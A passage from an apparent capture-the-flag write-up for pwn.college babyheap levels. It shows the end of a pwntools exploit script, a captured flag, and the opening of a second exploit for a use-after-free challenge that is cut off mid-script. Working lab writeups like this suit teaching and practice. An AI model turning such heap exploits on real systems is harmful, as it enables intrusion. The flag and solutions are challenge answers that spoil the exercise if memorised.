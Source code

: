 ```python
                target.sendlineafter(b": ", arg)

        response = target.recvall(timeout=0.1)

        if b"pwn.college{" in response:
            return True
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    target = launch()
    payload = construct_payload()

    if attack(target, payload):
        exit()


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{8_UCfYUIGnvHU86NU1Qe-H6dK1o.0VM3MDL5cTNxgzW}`

# Level 1.1

## Information

- Category: Pwn

## Description

> Exploit a use-after-free vulnerability to get the flag.

## Write-up

参见 [Level 1.0](#level-10)。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    context,
    gdb,
    log,
    process,
    remote,
)

context(log_level="debug", terminal="kitty")

FILE = "./babyheap_level1.1"
HOST, PORT = "localhost", 1337

gdbscript = """
c
```
